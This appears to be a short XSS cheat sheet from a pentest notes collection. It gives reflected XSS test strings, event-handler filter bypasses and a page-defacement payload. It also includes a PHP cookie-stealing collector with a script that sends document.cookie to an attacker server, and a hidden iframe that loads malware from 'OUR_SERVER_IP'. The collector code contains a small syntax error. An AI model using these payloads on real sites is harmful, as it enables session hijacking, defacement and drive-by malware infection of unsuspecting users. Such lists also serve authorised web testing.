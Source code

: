 # XSS tricks

## Reflected

### Simple test

This is a simple test to see what happens, this is not a prove that the field is vuln to XSS:

`<plaintext>`

### Simple XSS test

`<script>alert('Found')</script>`

`"><script>alert(Found)</script>">`

`<script>alert(String.fromCharCode(88,83,83))</script>`

### Bypass filter of tag script

`"  onload="alert(String.fromCharCode(88,83,83))`

`" onload="alert('XSS')`

`bla` is not a valid image, so this cause an error:

`<img src='bla' onerror=alert("XSS")>`

## Persistent

`>document.body.innerHTML="<style>body{visibility:hidden;}</style><div style=visibility:visible;><h1>HACKED!</h1></div>";`

### PHP collector

`> cookie.txt`
`chmod 777 cookie.txt`

Edit a php page like `colector.php` as follow:

```php
<?php
	$cookie=GET['cookie'];
	$useragent=$_SERVER['HTTP_USER_AGENT'];
	$file=fopen('cookie.txt', 'a');
	fwrite($file,"USER AGENT:$useragent || COOKIE=$cookie\n");
	fclose($file);
?>
```

Script to put in page:

`<script>new Image().src="http://OUR_SERVER_IP/colector.php?cookie="+document.cookie;</script>`

### Malware Donwloader via XSS

<iframe src="http://OUR_SERVER_IP/OUR_MALWARE" height="0" width="0"></iframe>